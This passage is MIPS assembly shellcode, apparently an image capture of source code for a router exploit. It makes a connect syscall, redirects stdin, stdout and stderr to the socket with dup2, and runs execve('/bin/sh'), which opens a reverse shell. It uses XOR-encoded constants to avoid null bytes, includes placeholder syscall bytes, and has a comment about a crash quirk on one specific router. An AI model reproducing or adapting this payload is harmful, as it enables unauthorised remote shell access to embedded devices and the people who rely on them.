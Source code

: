 ```
	sh $s3, -298($sp)
	xori $s3, 0x922C
	sw $s3, -296($sp)
	xori $s3, $s6, 0x3B34
	sw $s3, -294($sp)
	sw $s7, -292($sp)
	addiu $a1, $sp, -300
	xori $a2, $s6, 0x3121
	xori $v0, $s6, 0x217B
connect_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE

	# dup(STDOUT)
	# Special case for this router. If STDIN file descriptor
	# is closed the program crashes so copy it when dup(),
	# when dup2() is called it will no longer crash.
	xori $a0, $s6, 0x3130
	xori $v0, $s6, 0x3EF8
dup_stdout_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE

	# dup2(socket_descriptor, STDIN)
	addiu $a0, $fp, 0x2121
	xori $a1, $s6, 0x3131
	xori $v0, $s6, 0x3EEE
dup2_stdin_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE

	# dup2(socket_descriptor, STDOUT)
	addiu $a0, $fp, 0x2121
	xori $a1, $s6, 0x3130
	xori $v0, $s6, 0x3EEE
dup2_stdout_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE

	# dup2(socket_descriptor, STDERR)
	addiu $a0, $fp, 0x2121
	xori $a1, $s6, 0x3133
	xori $v0, $s6, 0x3EEE
dup2_stderr_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE

	# execv("/bin/sh", ["/bin/sh", NULL], NULL);
	addiu $t0, $s7, 0x622f
	sw $t0, -300($sp)
	addiu $t0, $s7, 0x6e69
	sw $t0, -298($sp)

	addiu $t0, $s7, 0x732f
	sw $t0, -296($sp)
	xori $t0, $s6, 0x3159
	sw $t0, -294($sp)

	addiu $a0, $sp, -300
	sw $a0, -288($sp)
	sw $zero, -292($sp)

	addiu $a1, $sp, -288
	xori $a2, $s6, 0x3131
	xori $v0, $s6, 0x3e9a
execve_syscall:
	.byte 0xFE, 0xFE, 0xFE, 0xFE
```